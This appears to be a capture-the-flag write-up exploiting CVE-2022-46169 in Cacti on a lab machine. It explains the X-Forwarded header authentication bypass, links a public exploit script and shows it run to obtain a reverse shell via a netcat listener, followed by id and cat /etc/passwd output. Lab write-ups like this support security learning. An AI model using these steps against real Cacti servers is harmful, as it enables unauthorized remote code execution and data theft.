 My basic understanding of how CVE-2022-46169 works, is that there are two steps for RCE to happen: 1.) Bypass the hostname-based authentication check 2.) Inject reverse shell code into the unsanitized user input field.

For step one, the php code for Cacti improperly checks for valid hostnames. Cacti utilizes internal functions that checks its __poller__ database for authorized hostnames, authorized hostnames will be allowed to utilize all Cacti functions. To bypass the hostname check, in the POST request to the target, you need to simply only add the __X-Forwarded__ header and set it to the following, __X-Forwarded: 127.0.0.1__. This tricks the target into thinking that the request is coming from itself and since target machine is authorized to make requests to itself, we now can access the functionality of the Cacti application.

The second step is a bit trickier. I emplore you to look at the article from [sonarsource](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/), there are several steps in the injection flow and the explanation Stefan gives is absolutely fantastic.

## Shell as www-data

There are a couple already premade scripts that we can use. Rapid7 has a nice module that they made to be used with their tool Metasploit but I found this nice and simple Python script that does the exact same thing, I recommend using this one for simplicity. [Exploit Script](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22/blob/main/CVE-2022-46169.py).

Running the script is easy, just make sure you start a netcat listener before you do:

```bash
h0ax@h0ax:~/monitorstwo$ chmod +x rce-exploit.py 
h0ax@h0ax:~/monitorstwo$ python3 rce-exploit.py  -u http://monitorstwo.htb --LHOST=10.10.16.16 --LPORT=9999
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

Netcat listener:

```bash
h0ax@h0ax:~/monitorstwo$ nc -vnlp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.11.211 50500
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash-5.1$ pwd
pwd
/var/www/html
bash-5.1$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
```